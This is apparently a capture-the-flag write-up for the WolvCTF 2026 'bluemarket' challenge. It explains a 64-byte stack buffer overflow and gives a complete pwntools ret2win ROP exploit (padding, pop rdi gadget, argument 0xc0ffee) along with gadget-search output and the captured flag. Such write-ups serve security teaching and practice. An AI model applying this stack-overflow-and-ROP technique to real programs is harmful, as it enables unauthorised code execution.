



## Overview
```
Arch:       amd64
RELRO:      Partial RELRO
Stack:      No canary found
NX:         NX enabled
PIE:        No PIE (0x400000)
Stripped:   No
```

---
## Vulnerability
The vulnerability present in this challenge was a Buffer Overflow. It creates a buffer with the size of 64 bytes but reads in 256 bytes, therefore overflowing it.



You may notice that the `buf` type is `void`. That is due to Binary Ninja not being able to resolve the type automatically, so in order to actually view the buffer size you must view the disassembly:



---
## Exploit Development
The program includes a function named `managerOverride()` that prints the flag. Before it can print the flag, it requires an argument of `0xc0ffee` to be passed. This will require having to do some basic ROP to set `rdi` which is the first function argument register to `0xc0ffee`, because NX is enabled.

With all that being said, the final thing to account for was overriding the instruction pointer. Since we have a buffer of 64 bytes, we can send 72 bytes of padding in order to fill the buffer + saved RBP (8 bytes).



Now the next thing to do is view the available gadgets we can use to control `rdi`:

```bash
bird ➜ ~/.../WOLVCTF_2026/bluemarket $ ROPgadget --binary chal | grep rdi
[ ... SNIP ... ]
0x0000000000401042 : fisubr dword ptr [rdi] ; add byte ptr [rax], al ; push 1 ; jmp 0x401020
0x00000000004010f6 : or dword ptr [rdi + 0x404060], edi ; jmp rax
0x0000000000401182 : pop rdi ; ret
0x0000000000401052 : shr byte ptr [rdi], cl ; add byte ptr [rax], al ; push 2 ; jmp 0x401020
[ ... SNIP ... ]
```
- `pop rdi ; ret` gadget at `0x401182`. 

---
## Final Pwn

```python
from pwn import *

BINARY = "./chal"
elf = context.binary = ELF(BINARY, checksec=False)

GDBSCRIPT="""
b *main
c
"""

def start():
    if args.GDB:
        return gdb.debug(BINARY, gdbscript=GDBSCRIPT)
    elif args.REMOTE:
        return remote("blue-market.wolvctf-2026.kctf.cloud", 1337)
    return process([BINARY])

io = start()

rop = ROP(elf)
pop_rdi = rop.find_gadget(["pop rdi", "ret"])[0]
ret = rop.find_gadget(["ret"])[0] 

payload = b"A" * 72
payload += p64(ret)
payload += p64(pop_rdi) + p64(0xc0ffee)
payload += p64(elf.symbols["managerOverride"])

io.sendafter(b"Scan an item (enter item code):", payload)
io.interactive()
```
```
Override accepted. wctf{bluem4rket_4qtb786aidwh1etd}
```